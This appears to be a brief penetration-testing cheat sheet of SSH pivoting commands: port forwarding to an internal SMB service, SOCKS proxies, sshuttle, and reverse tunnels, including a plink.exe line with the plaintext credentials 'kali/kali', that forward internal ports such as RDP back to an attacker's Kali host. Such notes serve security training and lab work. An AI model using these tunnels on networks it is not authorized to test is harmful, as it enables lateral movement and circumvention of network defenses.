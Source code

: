 # SSH

Forward one port:

```bash
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215
```

Start socks proxy:

```bash
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
```

Remote port forwarding (reverse):

```bash
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
```

Dynamic remote (socks):

```bash
ssh -N -R 9998 kali@192.168.118.4
```

sshuttle:

```bash
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
```

Plink:

```powershell
plink.exe -ssh -l kali -pw kali -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```
